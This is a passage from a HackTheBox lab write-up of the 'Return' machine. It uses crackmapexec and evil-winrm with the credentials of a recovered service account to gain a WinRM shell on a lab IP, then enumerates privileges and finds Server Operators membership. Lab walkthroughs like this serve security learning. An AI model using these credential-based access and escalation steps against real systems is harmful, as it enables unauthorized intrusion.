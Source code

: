 ![crackmapexeec_smb_svc_printer.png](GitHubv2/HackTheBox/EASY/Return/screenshots/crackmapexeec_smb_svc_printer.png)

The account exists.

We check for WinRM access:

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![crackmapexeec_winrm_svc_printer.png](GitHubv2/HackTheBox/EASY/Return/screenshots/crackmapexeec_winrm_svc_printer.png)

---

### 3.2 WinRM Access

With valid credentials and WinRM open, we gain a shell:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![user_flag.png](GitHubv2/HackTheBox/EASY/Return/screenshots/user_flag.png)

🏁 **User flag obtained**

---

## 4. Privilege Escalation

### 4.1 Privilege & Group Enumeration

We check the account’s privileges and group memberships:

```bash
whoami /priv
net user svc-printer
```

![svc_printer_priv.png](GitHubv2/HackTheBox/EASY/Return/screenshots/svc_printer_priv.png)

The account belongs to the **Server Operators** group.

> **Server Operators** can start, stop, and reconfigure services.  
> Reference: [Microsoft Docs - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

List current services:

```bash
services
```

![svc_printer_services.png](GitHubv2/HackTheBox/EASY/Return/screenshots/svc_printer_services.png)

---
